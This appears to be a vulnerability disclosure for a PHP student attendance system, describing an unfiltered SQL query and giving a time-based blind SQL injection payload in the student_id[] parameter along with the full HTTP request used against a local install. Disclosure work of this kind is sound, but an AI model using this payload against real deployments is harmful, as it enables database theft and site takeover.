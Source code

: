 # Simple Student Attendance System has a vulnerability of SQL injection
Source code download：https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html

version：2023/11/30

Vulnerability description: The system has a SQL injection vulnerability, and attackers can obtain database information and website control permissions by inserting malicious SQL statements.

The cause of the vulnerability: The vulnerability occurs on line 165 of classes\actions.class.php. The input from the user has not been filtered, resulting in the execution of malicious SQL statements
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111608669.jpg)
Vulnerability verification: After setting up the system, access the local port 80
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609232.png)
At the attendance function, capture and save the traffic package for attendance
![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609233.png)
Pass the payload in the student_id[] parameter:
```php
83'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609234.png)

The response will pause for a multiple of 3 seconds, which is 6 seconds, successfully verifying that there is a SQL injection vulnerability at this location.

payload:

```php
POST /php-attendance/ajax-api.php?action=save_attendance HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 150
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=rbh6d8kdgfbbvame4b8ul5ujmn
Referer: http://127.0.0.1/php-attendance/?page=attendance&class_id=1&class_date=2023-12-05
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

class_date=2023-12-05&class_id=1&student_id%5B%5D=83%27and%28select%2Afrom%28select%2Bsleep%283%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

sqlmap verification：

![](https://cdn.jsdelivr.net/gh/G1uneko/picture_blog@main/img/202312111609236.png)
